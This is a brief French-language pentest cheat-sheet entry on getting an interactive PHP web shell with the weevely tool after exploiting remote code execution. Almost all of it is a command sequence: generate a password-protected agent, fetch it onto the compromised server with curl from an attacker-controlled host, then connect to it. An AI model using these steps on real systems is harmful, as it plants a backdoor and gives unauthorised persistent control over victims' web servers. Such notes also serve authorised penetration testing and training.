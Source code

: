 # Web Shell

### PHP

L'outil [weevely](https://github.com/epinna/weevely3) permet d'avoir un _Web Shell_ parfaitement interactif quand la RCE ne permet pas de mettre en place un _Reverse Shell_ facilement.

```
# Générer l'agent :
./weevely.py generate password agent.php

# Uploader l'agent sur l'application Web (à réaliser depuis la RCE) :
curl http://<IP-HOTE>:8081/agent.php --output agent.php

# Réaliser une connexion vers l'agent :
./weevely.py http://<DOMAINE>/agent.php password
```
